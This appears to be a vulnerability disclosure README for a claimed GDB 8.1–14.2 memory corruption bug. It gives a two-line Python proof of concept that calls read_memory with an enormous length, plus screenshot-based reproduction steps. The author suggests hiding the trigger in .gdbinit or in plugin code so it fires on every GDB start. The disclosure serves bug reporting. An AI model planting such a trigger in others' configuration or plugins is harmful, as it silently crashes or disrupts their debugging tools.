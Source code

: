 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC-old

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction.
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.
![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)

## POC-new
### just run gdb and source the poc
![image](https://github.com/N1nEmAn/wp/assets/118088443/4da536f9-3a63-4daf-88ef-073f21cca1d0)
